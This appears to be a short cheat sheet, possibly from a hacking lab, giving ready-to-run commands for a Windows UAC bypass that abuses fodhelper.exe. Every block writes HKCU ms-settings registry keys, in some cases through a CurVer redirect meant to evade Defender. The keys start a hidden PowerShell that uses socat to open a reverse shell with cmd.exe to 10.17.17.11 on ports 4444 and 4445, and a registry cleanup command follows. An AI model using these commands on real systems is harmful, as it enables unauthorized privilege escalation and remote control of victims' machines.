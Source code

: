 # terminal
fodhelper:
----------

You can use the following commands to set the required registry keys from a standard command line:

```text-plain
set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:10.17.17.11:4444 EXEC:cmd.exe,pipes"

reg add %REG_KEY% /v "DelegateExecute" /d "" /f

reg add %REG_KEY% /d %CMD% /f & fodhelper.exe
```

to clean the reg keys, use:

```text-plain
reg delete HKCU\Software\Classes\ms-settings\ /f
```

fodhelper powershell defender detected:
---------------------------------------

```text-plain
$program = "powershell -windowstyle hidden C:\tools\socat\socat.exe TCP:10.17.17.11:4445 EXEC:cmd.exe,pipes"

New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Name "(default)" -Value $program -Force
    
New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".pwn" -Force
    
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```

CMD
---

```text-plain
set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:10.17.17.11:4445 EXEC:cmd.exe,pipes"

reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f
	
reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f

fodhelper.exe
```